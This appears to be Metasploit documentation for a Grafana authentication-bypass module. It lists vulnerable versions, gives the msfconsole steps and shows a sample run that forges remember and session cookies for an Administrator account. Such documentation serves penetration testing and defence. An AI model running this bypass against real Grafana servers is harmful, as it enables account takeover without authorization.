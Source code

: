 ## Vulnerable Application

The following list shows the vulnerable versions of Grafana when configured for LDAP or OAuth:

  1.  2.x 
  2.  3.x
  3.  4.x befroe 4.6.4
  4.  5.x before 5.2.3

## Verification Steps

  1. Start msfconsole
  2. Do: ``use auxiliary/admin/http/grafana_auth_bypass``
  3. Do: ``set username <username>`` or ``set cookie <cookie>`` 
  5. Do: ``set version``
  6. Do: ``set rhosts``
  7. Do: ``set rport``
  8. Do: ``run``

## Scenarios

  Example run against Grafana 3.x with username admin:

```
msf > use auxiliary/admin/http/grafana_auth_bypass 
msf auxiliary(admin/http/grafana_auth_bypass) > show options 

Module options (auxiliary/admin/http/grafana_auth_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COOKIE                      no        Decrypt captured cookie
   RHOSTS     127.0.0.1        yes       Address of target
   RPORT      3000             yes       Port of target
   SSL        false            yes       set SSL/TLS based connection
   TARGETURI  /                no        Base URL of grafana instance
   THREADS    1                yes       The number of concurrent threads
   USERNAME                    no        Valid username
   VERSION    5                yes       Grafana version: "2-4" or "5" (Accepted: 2-4, 5)

msf auxiliary(admin/http/grafana_auth_bypass) > set RHOSTS 192.168.202.3
RHOSTS => 192.168.202.3
msf auxiliary(admin/http/grafana_auth_bypass) > set USERNAME Administrator
USERNAME => Administrator
msf auxiliary(admin/http/grafana_auth_bypass) > run

[*] Running for 192.168.202.3...
[+] Encrypted remember cookie: 1bedc565c40b58307afa4672efd72d3c37f02684c2deb0ce0b55594cbce337fc90625356dc232e998f
[+] Set following cookies to get access to the grafana instance.
[+] grafana_user=Administrator;
[+] grafana_remember=a232b98b9365d3d8f7ce253adfb9779f1114131a68cc8cbb4a53ee6f5cb71acfbe25773e95db051021;
[+] grafana_sess=4ecdc0c13ebca229;
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
